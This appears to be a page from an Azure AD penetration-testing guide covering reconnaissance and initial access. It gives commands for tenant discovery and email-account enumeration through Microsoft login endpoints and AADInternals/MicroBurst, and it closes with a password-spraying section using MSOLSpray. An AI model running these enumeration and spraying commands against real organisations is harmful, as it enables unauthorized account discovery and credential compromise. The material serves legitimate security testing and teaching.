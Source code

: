 ```yaml
---
title: Recon and Initial Access
description: The first step to Global Administrator
position: 2
---
```


# Check if AzureAD is in use

## Manual

We can know if a enterprise is using Azure and has its own tenant querying several Microsoft services:

Knowing if the enterprise has an AAD:

```bash
http https://login.microsoftonline.com/getuserrealm.srf?login={{ Username user@domain.com }}&json=1 --body
```

An example output would be:

```json
{
    "CloudInstanceIssuerUri": "urn:federation:MicrosoftOnline",
    "CloudInstanceName": "microsoftonline.com",
    "DomainName": "rai.usc.es",
    "FederationBrandName": "Universidade de Santiago de Compostela",
    "Login": "user@rai.usc.es",
    "NameSpaceType": "Managed",
    "State": 4,
    "UserState": 1
}
```

Get Tenant ID

```bash
http https://login.microsoftonline.com/{{ Domain domain.com }}/.well-known/openid-configuration --body
```

The tenant ID can be found in many places inside the json returned

```json
{
    "authorization_endpoint": "https://login.microsoftonline.com/{TenantID}/oauth2/authorize",
    [...]
}
```

Check if email is valid

```bash
http POST https://login.microsoftonline.com/common/GetCredentialType Username="{{ Username user@domain.com }}" | jq '.IfExistsResult'
```

Response Codes
* 1 - User Does Not Exist on Azure as Identity Provider
* 0 - Account exists for domain using Azure as Identity Provider
* 5 - Account exists but uses different IdP other than Microsoft
* 6 - Account exists and is setup to use the domain and an IdP other than Microsoft

## [AADInternals](https://github.com/Gerenios/AADInternals)

> Note: This module only works in Windows (arm64 supported)

```bash
Install-Module AADInternals -Scope CurrentUser
Import-Module AADInternals
```

Get Tenant information, name, type...

```powershell
Get-AADIntLoginInformation -UserName {{ Username root@domain.com }}
```

Get Tenant Id

```powershell
Get-AADIntTenantID -Domain {{ Domain domain.com }}
```

Get Tentant domains

```powershell
Get-AADIntTenantDomains -Domain {{ Domain domain.com }}
```

Get all the information 

```powershell
Invoke-AADIntReconAsOutsider -DomainName {{ Domain domain.com }}
```

## [Microburst](https://github.com/NetSPI/MicroBurst)

MicroBurst includes functions and scripts that support Azure Services discovery, weak configuration auditing, and post exploitation actions such as credential dumping. It is intended to be used during penetration tests where Azure is in use.

> Note: This module requires windows becaus it uses AzureAD module which only supports Windows. You can try to run it using AzureADPreview but beware of possible errors

Installation:

```powershell
# Install-Module -Name Az -Scope CurrentUser -Repository PSGallery -Force
# Install-Module -Name AzureAD -Scope CurrentUser -Repository PSGallery -Force
# Install-Module -Name MSOnline -Scope CurrentUser -Repository PSGallery -Force
git clone https://github.com/NetSPI/MicroBurst
cd MicroBurst
Import-Module .\Microburst.psm1 # Takes a moment
```

Enumerate all subdomains for an organization

```powershell
Invoke-EnumerateAzureSubDomains -Base {{ Domain domain.com }} -Verbose
```

# Password spraying

Although this method is not recommended in production or a real assessment it is used in real world scenarios so we'll cover it here.

There are countless tools that can perform this, one of the most known ones is [MSOLSpray](https://github.com/dafthack/MSOLSpray)

```powershell
git clone https://github.com/dafthack/MSOLSpray
cd MSOLSpray
Import-Module ./MSOLSpray.ps1
```

You can check valid emails using this fancy oneliner

```powershell
cat ../emails.txt | %{
    http POST https://login.microsoftonline.com/common/GetCredentialType Username="$_" | jq -r 'select(.IfExistsResult!=1) | .Username'
}
```

Password spraying can be performed using the following command:

```powershell
Invoke-MSOLSpray -UserList ..\emails.txt -Password '{{ Password password }}' -Verbose
```